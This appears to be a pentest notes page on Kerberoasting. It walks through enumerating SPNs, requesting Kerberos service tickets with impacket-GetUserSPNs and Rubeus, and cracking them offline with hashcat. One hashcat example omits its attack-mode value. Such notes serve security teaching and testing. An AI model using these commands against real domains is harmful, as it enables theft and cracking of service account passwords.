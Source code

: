 # Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?

Kerberoasting (also known as **TGS-REP roasting**) relies on the fact that a Ticket Granting Service (TGS) created for a service will be encrypted with a hash derived from the password of the associated service account. This allows an attacker to perform a dictionary attack to potentially crack the passwords of service accounts linked to services defined by the Service Principal Names (SPNs).

**TGS-REP** refers to the **Kerberos ticket-granting service (TGS) response** message, where the KDC validates the TGT, and if valid, responds with a service ticket (TGS) encrypted with the target service account's key.

### (1) Retrieve a list of SPNs in the network

`Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

1. `Get-ADUser` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADUser -Properties ServicePrincipalNames -Filter * | Select Name,ServicePrincipalNames

# more specifically
# (1)
PS> Get-ADUser -Properties ServicePrincipalNames -Filter 'ServicePrincipalNames -like "*"' | Select Name,ServicePrincipalNames

# (2)
PS> Get-ADUser -Properties ServicePrincipalNames -LDAPFilter "(servicePrincipalName=*)" | Select Name,ServicePrincipalNames

```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### (2) Retrieve the TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the service user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform dictionary attack on the obtained TGS

```sh
$ hashcat -a 0 -m <hash_mode> <path_to_spn_hash> <wordlist>
# eg. 
$ echo xxx > spn.hash 
$ hashcat -a -m <hash_mode> spn.hash /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode&#x20;
  * `-a 0`: Dictionary attack&#x20;
* `-m` : Hash mode&#x20;
  * `-m 13100`: either one of **13100, 19600, 19700** (depending on the encryption type of the hashes obtained)

